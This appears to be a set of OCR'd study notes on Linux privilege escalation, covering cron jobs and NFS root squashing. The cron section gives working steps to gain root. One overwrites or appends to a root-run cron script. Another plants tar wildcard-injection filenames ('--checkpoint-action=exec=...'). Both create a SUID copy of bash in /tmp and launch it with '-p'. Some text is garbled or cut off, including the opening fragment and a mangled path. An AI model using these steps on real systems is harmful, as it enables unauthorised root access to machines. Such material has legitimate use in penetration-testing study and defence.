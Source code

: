 these vulnerability used in tar,python,openssl,perl,python.

## SCHEDULED TASKS

I. Most commonly scheduled tasks are known as cron job
It is a task that executed by the root according to the conditions
command to show the cron job or crontab:

```
cat /etc/crontab
```

similar timer for executing a service or file based on timers
command to display it : systemctl list-timers --all

II.Steps to escalate the cronjob(if the file not found in first path):

command:
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <location>
2. chmod +x <location>
3. /tmp/bash -p

III.Cron wildcards:

wildcard(*) is a replace a something,if a cronjob contains a cronwildcard
it could be vulnerable

Steps: this works on the (tar)

1. create a malicious file(ex: runme.sh)
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
2. touch <complete location from home>/--checkpoint=1
3. touch <complete location from home>/--checkpoint-action=exec=sh\runme.sh
4. /tmp/bash -p

here it replace the asteric(*) in the cron wildcards in the cronjobs

IV.other method for cronjobs(if the file is found):

Steps:

1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> <location of cron
tab file>
2. /tmp/bash -p

## NFS ROOT SQUASHING

NFS(Network File System) allows a system to share directories and files with others over a network.

Root Squashing:
Usually, NFS uses a security feature called root_squash which maps the root user(UID 0) from a client to a non previleged user on the server, preventing root on client from acting as root on the server

1. root_squash(default) - safer, client root becomes nobody on the server
2. no_root_squash - dangerous, client root remains root on the server which makes huge security risk
